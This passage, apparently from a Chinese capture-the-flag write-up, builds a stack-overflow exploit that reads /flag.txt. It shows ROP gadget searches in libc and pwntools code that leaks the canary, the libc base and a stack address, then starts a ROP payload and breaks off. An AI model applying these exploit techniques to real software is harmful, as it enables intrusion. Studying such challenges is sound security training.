 ```c 
syscall(2, s, 0); // syscall(SYS_open, "/flag.txt", O_RDONLY)
syscall(0, fd, s+0x10, len); // syscall(SYS_read, fd, s+0x10, len) 这里的 fd 不确定，可以从 3 开始枚举
syscall(1, 1, s+0x10, len); // syscall(SYS_write, stdout, s+0x10, len)
```

所以需要布局四个参数（rdi rsi rdx rcx），寻找 gadget:

```text
❯ ROPgadget --binary libc.so | grep ": pop rdi ; ret"
0x000000000002a3e5 : pop rdi ; ret
❯ ROPgadget --binary libc.so | grep ": pop rsi ; ret"
0x000000000002be51 : pop rsi ; ret
❯ ROPgadget --binary libc.so | grep ": pop rdx ; ret"
0x000000000003bad3 : pop rdx ; retf 0x19
❯ ROPgadget --binary libc.so | egrep ": pop rdx ; .*? ; ret"
...
0x0000000000090529 : pop rdx ; pop rbx ; ret
❯ ROPgadget --binary libc.so | grep ": pop rcx ; ret"
0x000000000008c6bb : pop rcx ; ret
```

之后根据这些目标编写 exp 即可：

1. 泄露 canary
    ```python
    p.sendafter(b"size> ", b"65535".ljust(0xf, b"\x00"))
    p.send(b"A" * 0x109)
    p.recvn(0x109)
    canary = u64(b"\x00" + p.recvn(7))
    info(f"canary: {hex(canary)}")
    ```
2. 泄露 libc 基地址
    ```python
    p.sendafter(b"size> ", b"65535".ljust(0xf, b"\x00"))
    p.send(b"A" * 0x108 + b"A" * 8 + b"A" * 8)
    p.recvn(0x118)
    ret_addr = u64(p.recvn(6) + b"\x00\x00")
    libc_base = ret_addr - 0x29d90
    syscall_addr = libc_base + libc.symbols["syscall"]
    info(f"ret_addr: {hex(ret_addr)}")
    info(f"libc_base: {hex(libc_base)}")
    info(f"syscall_addr: {hex(syscall_addr)}")
    ```
3. 泄露栈上 s 地址
    ```python
    p.sendafter(b"size> ", b"65535".ljust(0xf, b"\x00"))
    p.send(b"A" * 0x108 + b"A" * (8 + 8 + 8 + 8 + 8 + 8))
    p.recvn(0x138)
    stack_addr = u64(p.recvn(6) + b"\x00\x00")
    buffer_addr = stack_addr - 0x228
    info(f"stack_addr: {hex(stack_addr)}")
    info(f"buffer_addr: {hex(buffer_addr)}")
    ```
4. 构造 ROP payload
    - 写入 "/flag.txt" 并溢出、填入 canary，覆盖 rbp
        ```python
        payload = b"/flag.txt\x00\x00\x00\x00\x00\x00\x00"
        payload += b"A" * (0x108 - len(payload))
        payload += p64(canary)
        payload += b"A" * 8
        ```
    - syscall open
        ```python
        pop_rdi_ret     = libc_base + 0x2a3e5
        pop_rsi_ret     = libc_base + 0x2be51